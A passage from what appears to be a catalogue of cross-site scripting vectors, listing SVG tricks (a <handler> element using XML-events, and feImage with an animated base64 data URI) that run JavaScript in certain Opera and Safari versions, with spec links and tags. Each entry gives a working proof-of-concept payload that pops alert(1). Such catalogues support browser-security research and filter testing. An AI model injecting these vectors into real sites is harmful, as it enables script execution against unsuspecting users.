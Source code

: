 *   safari 3.4
*   safari 4.0.3

*   xss
*   svg
*   event
*   safari
*   chrome

*   [http://www.w3.org/TR/SVG11/animate.html](http://www.w3.org/TR/SVG11/animate.html)
*   [http://www.w3.org/TR/SVGMobile12/animate.html](http://www.w3.org/TR/SVGMobile12/animate.html)
*   [#24](#24)
*   [#28](#28)

reporter：LeverOne

### Using SVG element &lt;handler&gt;[#94](#94)[test](test/#94)

Specification SVG Tiny 1.2 provides an element &lt;handler&gt;, which is a "bridge" between SVG and XML-events. This element can contain regular JavaScript.


```
<svg xmlns="http://www.w3.org/2000/svg"> <handler xmlns:ev="http://www.w3.org/2001/xml-events" ev:event="load">alert(1)</handler> </svg>
```

*   opera 10.0
*   opera 12.0

*   xss
*   svg
*   opera
*   XML-events

*   [http://www.w3.org/TR/SVGMobile12/script.html#HandlerElement](http://www.w3.org/TR/SVGMobile12/script.html#HandlerElement)
*   [http://www.w3.org/TR/xml-events/](http://www.w3.org/TR/xml-events/)
*   [#85](#85)
*   [#104](#104)
*   [#127](#127)

reporter：LeverOne

### Using SVG element &lt;feImage&gt; and animated data URIs[#95](#95)[test](test/#95)

SVG allows using filter effects to be applied on arbitrary visible SVG elements. The feImage filter allows inclusion of other files - as well as data URIs. With a maliciuosly crafted data URI it's possible to execute JavaScript without user interaction. List all of the elements which can be animated can be found in the specified documentation.


```
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink"> <feImage> <set attributeName="xlink:href" to="data:image/svg+xml;charset=utf-8;base64, PHN2ZyB4bWxucz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmciPjxzY3JpcHQ%2BYWxlcnQoMSk8L3NjcmlwdD48L3N2Zz4NCg%3D%3D"/> </feImage> </svg>
```
